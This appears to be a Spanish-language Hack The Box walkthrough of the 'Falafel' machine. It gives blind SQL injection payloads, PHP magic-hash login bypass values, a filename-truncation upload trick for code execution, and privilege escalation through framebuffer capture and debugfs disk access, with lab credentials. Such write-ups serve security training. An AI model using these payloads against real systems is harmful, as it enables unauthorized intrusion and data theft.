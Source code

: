 # Falafel-htb

## NMAP 

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ffd07a22-4230-406d-b6bc-02d705ac03d7)


En el puerto 80 se encuentra un portal con un login si intentamos ingresar datos para ver como se comporta nos damos cuenta que existe el usuario admin e incluso se pueden enumerar usuarios.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/00e9573b-abce-4d5e-a3ae-91c80a12df17)

Tambien nos damos cuenta que el portal es vulnerable sql injection. Se puede usar este mensaje para una blind SQLI.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/59e9e1b7-fadd-4ba3-9f74-8290b9203e93)


```
admmin' or 1=1-- -
admin' order by 100-- - # Manda error lo que seria un indicador claro que si es vulnerable.
```

Para aprovecharlo si esta bien nos va a mostrar el otro mensaje

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/03bb7c46-b5b9-44a1-9e79-644676ae6530)

```
admin' and substring(username,1,1)='a'-- -

Saldra mensaje de que el usuario es correcto pero no el password si esta mal pone Try again.

admin' and substring(username,1,1)='a'-- -
```

## PHP Juggling 

Una vez que sacamos el hash del usuario admin probamos esta vulnerabiidad. Esta vulnerabilida se proboca por no usar tres = en una comparacion entonces cosas que no son iguales al compararlas mal si son iguales por ejemplo:

```
  $ echo -n 240610708 | md5sum
    0e462097431906509019562988736854  -
    $ echo -n QNKCDZO | md5sum
    0e830400451993494058024219903391  -
    $ echo -n aabg7XSs | md5sum
    0e087386482136013740957780965295  -
```

El hash osea la contraseña del usuario admin empieza con 0e  entonces buscamos una colicion que empiece con 0e php se va a equivocar y nos va a tomar cualquiera de las contraeeñas de arriba como una contraseña valida una vez que el usuario ingrese la contraseña y este se hashee.

## RCE

El limite de tamaño de nombre de un archivo en Linux es 255 y siempre que tengas wget e visto que puede tener este tipo de vulnerabilidades. entonces lo qu ehace es que corta el nombre del archivo a los 232 bytes mas 4 osea apartir del 232 puedes poner el .php y para pasar la proteccion de solo subir imagenes pues pones .php.jpg.


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/efcfecac-9ce4-4d31-aa2e-e67f2d465d67)


```
http://10.10.15.72/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.JPG
```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/46fbdf73-385b-4c98-9f74-1a2ab7bf714d)


Para saber los limites utilice la herramienta para exploit de metasploit.

```
# Primero esta
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255

# Y para saber el offset donde se corta esta

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 255 -q h7Ah 
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/d2497383-dfbb-475a-ad47-456496dc1a54)


## Priv escalation 

Ya una vez dentro revisamos los datos de la conexion a la base de datos y nos da la contraseña del usuario moshe

```

moshe

falafelIsReallyTasty

```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/8043397d-6b3d-4466-9e2a-3c8041039ef4)

Como este usuario pertenece al grupo video

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/5d9214dc-7bfa-431b-be9d-433fd4d1e9b2)

Es posible que puedan tomar capturas de pantalla. Usamos el w para ver que usuario esta loggeado

```
w
```
El archivo para sacar una captura de pantalla la pasamos a nuestro equipo y la abrimos como RAW se prueban varios formatos RAw y la abrimos con un editor tipo adobe photoshop pero de linux llamdo gimp

```
cat /dev/fb0 > out
gimp
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ea171245-8c8f-41d0-94f9-53bb35927cda)


Para que nos muestre las coordenadas correctas se tiene que sacar el size:

```
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

COn lo cual ya tenemos ahora las credenciales del usuario yossi:

```

yossi

MoshePlzStopHackingMe!

```

### debugfs

debugfs es un sistema de archivos especial disponible en el núcleo Linux desde la versión 2.6.10-rc3.​ Si te encuentras en el grupo disk practicamente tienes acceso a cualquier directorio del sistema

```
debugfs /dev/sda1
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/195c68e7-1258-4bc4-8d4d-f8d0c76ce5a6)

Ya tenemos acceso a lo que sea del sistem

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/88ad209e-18b2-431a-a7aa-c29f1e1ad3e4)

Podemos leer la flag...


# Bibliografia

Los grupos que son peligrosos tal como video o como disk todo lo puedes encontrar aqui

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe



































































